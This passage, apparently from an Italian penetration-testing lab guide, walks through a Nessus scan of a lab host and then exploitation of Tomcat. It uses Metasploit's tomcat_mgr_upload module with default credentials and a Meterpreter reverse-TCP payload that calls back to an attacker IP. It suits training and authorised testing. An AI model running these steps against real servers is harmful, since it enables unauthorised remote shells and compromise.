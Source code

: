 1. Avviare il servizio Nessus su Kali Linux:
   
   ```bash
   sudo systemctl start nessusd
   ```
2. Accedere all'interfaccia Nessus tramite il browser: `https://localhost:8834`.
3. Creare una nuova scansione:
   - Tipo: **Basic Network Scan**.
   - Target: `192.168.50.3`.
4. Avviare la scansione e identificare le vulnerabilità relative al servizio **Tomcat**.

### **3. Exploit con Metasploit**

#### **3.1 Configurazione dell'Exploit**

1. Avviare Metasploit su Kali Linux:
   
   ```bash
   msfconsole
   ```
2. Cercare gli exploit disponibili per Tomcat:
   
   ```bash
   search tomcat
   ```
3. Selezionare l'exploit **Tomcat Manager Upload**:
   
   ```bash
   use exploit/multi/http/tomcat_mgr_upload
   ```
4. Configurare i parametri dell'exploit:
   - Impostare l'IP della macchina target:
     
     ```bash
     set RHOSTS 192.168.50.3
     set RPORT 8080
     ```
   - Configurare le credenziali di Tomcat:
     
     ```bash
     set HttpUsername admin
     set HttpPassword password
     ```
   - Configurare il payload per la sessione Meterpreter:
     
     ```bash
     set payload java/meterpreter/reverse_tcp
     set LHOST 192.168.50.165
     set LPORT 7777
     ```
5. Lanciare l'exploit:
   
   ```bash
   exploit
   ```

### **4. Raccolta delle Evidenze sulla Macchina Compromessa**
